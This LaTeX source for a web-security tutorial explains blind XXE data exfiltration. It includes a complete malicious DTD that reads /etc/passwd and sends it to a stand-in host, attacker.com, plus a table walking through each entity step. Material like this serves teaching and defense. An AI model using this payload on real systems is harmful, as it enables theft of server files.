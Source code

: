 \documentclass{article}
\begin{document}
\begin{infobox}
A blind XXE vulnerability becomes truly dangerous when attackers can exfiltrate sensitive data from the target server to their own infrastructure.
\end{infobox}

\subsection{The Approach: Hosted Malicious DTD}

Exfiltrating data via blind XXE involves:
\begin{enumerate}
    \item Hosting a malicious DTD on a system the attacker controls
    \item Invoking the external DTD from within the in-band XXE payload
    \item The DTD reads local files and sends them to the attacker
\end{enumerate}

\subsection{Anatomy of a Malicious DTD for Data Exfiltration}

\subsubsection{Complete Malicious DTD Example}
Here's an example of a malicious DTD designed to exfiltrate the contents of the \texttt{/etc/passwd} file:

\begin{lstlisting}[language=XML, caption=malicious.dtd - Data Exfiltration Payload]
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
\end{lstlisting}

\subsection{Step-by-Step Breakdown}

\begin{table}[h]
\centering
\begin{tabular}{|p{3cm}|p{10cm}|}
\hline
\textbf{Step} & \textbf{Action} \\
\hline
1.Define file entity & Declares parameter entity \texttt{file} containing contents of \texttt{/etc/passwd} \\
\hline
2.Define eval entity & Declares \texttt{eval} containing dynamic declaration of \texttt{exfiltrate} entity \\
\hline
3.Execute eval & Uses \texttt{eval} entity to trigger dynamic declaration of \texttt{exfiltrate} \\
\hline
4.Execute exfiltrate & Evaluates \texttt{exfiltrate} by requesting URL with stolen data \\
\hline
\end{tabular}
\caption{Malicious DTD Execution Steps}
\end{table}
\end{document}
